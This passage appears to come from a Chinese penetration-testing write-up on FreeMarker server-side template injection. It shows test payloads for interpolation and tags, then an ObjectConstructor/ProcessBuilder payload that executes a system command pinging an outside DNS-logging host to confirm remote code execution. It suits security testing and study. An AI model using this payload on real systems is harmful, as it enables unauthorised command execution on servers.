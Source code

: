 
### 复测尝试绕过

![preview](FreeMarker模板注入实例.assets/v2-df296431a33fa646f63e478c094c27f0_r.jpg)

测试payload

```java
a${2*24}
//返回a48
```

```java
a<#if "piceous"?contains("ice")>It contains "ice"</#if>
//当匹配到ice时，返回aIt contains "ice",未匹配到时返回a
```

![image-20220216164653433](FreeMarker模板注入实例.assets/image-20220216164653433.png)

发现支持插值${}和标签<#>



同时在标题和正文分分别使用两个payload试试，

```java
<#list ["foo", "bar", "baz"] as x>     ${x} </#list>
    
${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.ProcessBuilder","ping 4374587f.dns.1433.eu.org -c 8").start()}
```
